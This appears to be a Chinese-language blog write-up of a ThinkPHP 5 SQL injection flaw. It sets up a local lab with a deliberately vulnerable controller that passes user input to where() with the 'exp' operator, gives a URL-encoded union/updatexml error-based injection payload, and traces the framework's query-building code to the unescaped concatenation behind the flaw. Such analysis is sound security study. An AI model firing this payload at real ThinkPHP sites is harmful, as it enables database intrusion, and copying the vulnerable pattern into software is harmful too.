


thinkphp执行sql语句流程
where方法解析参数返回$this对象 -> /Query.php/select()根据where方法产生的option结果,分析查询表达式 -> /Builder.php/select方法根据option数组存在的键值调用相对应的语句解析，生成sql语句 -> 调用PDO查询prepare($SQL)编译sql语句 -> bindValue($param, $value)将value绑定到param上 -> execute()执行。
该漏洞是利用prepare编译时报错进行注入,当然前期的无过滤和拼接是诱导注入的主因
环境
版本：Thinkphp： 5.0.10
漏洞影响版本: ThinkPHP5全版本
启动：public目录下php5 -S 127.0.0.1:8899 router.php
配置：数据库连接配置,app_debug、app_trace开启
数据库：mysql
1
2
3
4
5
6
7
| create database tpdemo;
use tpdemo;
create table users(
id int primary key auto_increment,
username varchar(50) not null
);
insert into users(id,username) values(1,'od0d');
|
文件内容：app/index/controller/index
1
2
3
4
5
6
7
8
9
10
11
12
| <?php
namespace app\index\controller;
class Index
{
public function index()
{
$username = request()->get('username');
$result = db('users')->where('username','exp',$username)->select();
return 'select success';
}
}
|
漏洞验证
payload: http://127.0.0.1:8899/?username=)%20union%20select%20updatexml(1%2cconcat(0x7e,database()%2c0x7e)%2c1)%23%20 [url编码]

漏洞成因
- thinkphp框架没有对传入参数进行sql过滤
- parseItem直接对注入参数值拼接
漏洞分析
参数传入与过滤情况
thinkphp调用request类get方法传入参数。若没有设置过滤函数默认为空，之后也只是简单调用框架的过滤方法filterExp
where方法解析参数
where方法返回值为$this,需要关注是options,该值传入Query类中的options数组。

sql查询语句构造
跟进select方法sql查询组成，是由多个sql解析方法组成
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| public function select($options = [])
{
$sql = str_replace(
['%TABLE%', '%DISTINCT%', '%FIELD%', '%JOIN%', '%WHERE%', '%GROUP%', '%HAVING%', '%ORDER%', '%LIMIT%', '%UNION%', '%LOCK%', '%COMMENT%', '%FORCE%'],
[
$this->parseTable($options['table'], $options),
$this->parseDistinct($options['distinct']),
$this->parseField($options['field'], $options),
$this->parseJoin($options['join'], $options),
$this->parseWhere($options['where'], $options),
$this->parseGroup($options['group']),
$this->parseHaving($options['having']),
$this->parseOrder($options['order'], $options),
$this->parseLimit($options['limit']),
$this->parseUnion($options['union']),
$this->parseLock($options['lock']),
$this->parseComment($options['comment']),
$this->parseForce($options['force']),
], $this->selectSql);
return $sql;
}
|
跟进buildWhere方法分析where语句拼接情况。
函数逻辑进入最后一个else语句
1
2
3
4
5
| else {
$field = is_string($field) ? $field : '';
$str[] = ' ' . $key . ' ' . $this->parseWhereItem($field, $value, $key, $options, $binds);
}
|
parseWhereItem方法中，$exp='EXP',该逻辑直接对$key、$value值进行拼接。造成注入
$key＝“`username`”
$value=”) union select updatexml(1,concat(0x7e,database(),0x7e),1)# “
1
2
3
| elseif ('EXP' == $exp) {
$whereStr .= '( ' . $key . ' ' . $value . ' )';
|
参考链接
ThinkPHP5漏洞分析之SQL注入(三)
ThinkPHP5 SQL注入漏洞 && PDO真/伪预处理分析